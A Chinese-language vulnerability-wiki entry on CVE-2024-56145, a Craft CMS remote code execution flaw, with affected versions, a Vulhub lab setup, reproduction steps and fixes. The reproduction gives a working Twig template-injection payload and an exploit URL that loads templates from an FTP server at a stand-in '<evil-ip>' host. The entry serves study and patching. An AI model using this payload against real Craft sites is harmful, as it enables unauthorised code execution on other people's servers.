


## 2026-10-03 版本核验

版本索引补齐 CNA 列明的 3.x、4.x、5.x 分支；需启用 PHP register_argc_argv，不能按版本号单独判定。正文原有 4.x/5.x 说明保留。

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：5.0.0-RC1–&lt;5.5.2;4.0.0-RC1–&lt;4.13.2; register_argc_argv on; remote FTP template reachable

- **结论使用边界（1）**：Frontmatter omits4.x branch。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Config prerequisite explicit and coherent FTP/Twig chain, authoritative GHSA/research links。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Vulhub directory/revision and PHP remote-wrapper/connectivity prerequisites not specified。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CraftCMS register_argc_argv 远程代码执行漏洞 CVE-2024-56145

## 漏洞描述

CraftCMS 是一个基于 PHP 的内容管理系统，用于构建网站和应用程序。

CraftCMS 5.5.2 和 4.13.2 之前的版本存在潜在的远程代码执行漏洞。当 PHP 环境启用 `register_argc_argv` 时，CraftCMS 会错误地从 HTTP 请求中读取配置项，攻击者可以使用 `--templatesPath` 控制模板文件，并利用模板注入导致任意代码执行。

参考链接：

- [https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9](https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9)
- [https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms](https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms)

## 披露时间

2024-12-19

## 漏洞影响

```
5.0.0-RC1 <= Craft CMS < 5.5.2
4.0.0-RC1 <= Craft CMS < 4.13.2
```

## 环境搭建

Vulhub 执行以下命令启动一个 CraftCMS 5.5.1.1 服务器：

```
docker-compose up -d
```

服务器启动后，你可以在 `http://<your-ip>:8088/admin/install` 看到安装页面。请按照说明安装 CraftCMS，默认数据库地址为 `db`，用户名和密码均为 `root`。




## 漏洞复现

要复现该漏洞，你需要准备一个包含以下内容的 `index.twig` 文件并放置在任意远程服务器上：

```html
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
```

然后在 `index.twig` 文件所在的服务器中启动一个 FTP 服务器：

```shell
# 安装 pyftpdlib
pip install pyftpdlib

# 启动 FTP 服务器
python -m pyftpdlib -p 21212 -V
```

然后你可以通过发送以下请求来利用该漏洞：

```
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/
```




## 漏洞修复

1. 升级 Craft CMS 至安全版本。
2. 设置 register_argc_argv 为 off。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
